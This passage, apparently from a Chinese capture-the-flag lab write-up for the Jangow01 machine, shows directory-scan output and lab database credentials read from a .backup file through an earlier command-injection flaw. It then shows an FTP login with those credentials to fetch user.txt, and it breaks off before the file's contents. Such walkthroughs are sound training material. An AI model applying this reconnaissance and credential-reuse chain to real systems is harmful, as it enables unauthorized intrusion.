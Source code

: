 ```shell
[10:11:04] 403 -  279B  - /.htpasswd_test
[10:11:04] 403 -  279B  - /.htpasswds
[10:11:04] 403 -  279B  - /.php
[10:11:04] 403 -  279B  - /.php3
[10:11:27] 403 -  279B  - /server-status
[10:11:27] 403 -  279B  - /server-status/
[10:11:28] 301 -  315B  - /site  ->  http://192.168.47.136/site/
[10:11:28] 200 -   10KB - /site/

Task Completed
```

  web服务的主目录为site，同级还存在很多其他的文件，我们使用前面的命令注入漏洞访问一下各种文件，可以在.backup文件中发现关键信息：

```shell
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
```

该文件应该是用来连接数据库的，但是泄露了jangow01的用户名和密码。

# 3. Initial Access

使用jangow01的用户名和密码登录ftp，在`/home/jangow01`目录下发现了`user.txt`文件：

```shell
ftp> ls
229 Entering Extended Passive Mode (|||5764|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000           33 Jun 10  2021 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||5771|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |**************************************************************************************************************|    33       92.60 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (46.97 KiB/s)
```

文件内容如下：
